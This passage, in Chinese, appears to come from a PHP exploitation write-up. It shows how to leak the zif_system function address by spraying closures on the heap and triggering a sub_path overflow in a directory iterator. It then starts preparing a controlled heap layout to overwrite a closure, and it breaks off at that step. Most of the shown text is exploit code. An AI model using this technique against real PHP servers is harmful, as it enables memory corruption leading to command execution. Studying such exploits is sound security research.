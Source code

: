 
**泄露 system 函数地址**

这里我们还是老手法，利用`zend_closure.std.zend_object_handlers` 位于 (`Zend/zend_closures.c: 36`) 来泄露`closure_handlers` (位于 `Zend/zend_closures.c:46`) 的地址。

其中`zend_closure`通过创建闭包函数来生成，即我们通过生成大量的闭包函数来填充 heap.

```php
$f_arr = [];
for ($i = 0; $i < 0x2024; $i++) {
	$f_arr[$i] = function(){};
}
```

然后我们不断修改`sub_path`让其正好落在我们的申请某个`zend_closure`开头，平均 4 次即可。

```php
while (1) {
        $it = create_RDI();
        $sub_it = $it->getChildren();

        // preserve every iterator to avoid double freeing on sub_path
        $it_arr[] = $sub_it;

        // trigger overflow
        foreach($sub_it as $file) {}

        $data = $sub_it->getSubPath();

        // refcounted && is_object, zend_closure 本身也是一个 zend_object, 其鉴别方式为首 8 字节为 0x800000001
        if (read64($data, 0) == 0x800000001) {
            $closure_handlers = read64($data, 0x18);
            break;
        }
    }
```

拿到了`closure_handlers`加上相关偏移地址，我们就可以拿到`zif_system`的地址。

**修改闭包函数**

首先我们需要在 heap 上布置可控的内存结构

```php
$str_arr = [];
for ($i = 0; $i < 0x2024; $i++) {
    $str_arr[$i] = str_repeat('E', 0x140 - 0x20);
    // 作为 sub_path 是否指向正确位置的 unique identifier.
    $str_arr[$i][0] = "I";
    $str_arr[$i][1] = "L";
    $str_arr[$i][2] = "I";
    $str_arr[$i][3] = "K";
    $str_arr[$i][4] = "E";
    $str_arr[$i][5] = "P";
    $str_arr[$i][6] = "H";
    $str_arr[$i][7] = "P";
}
```
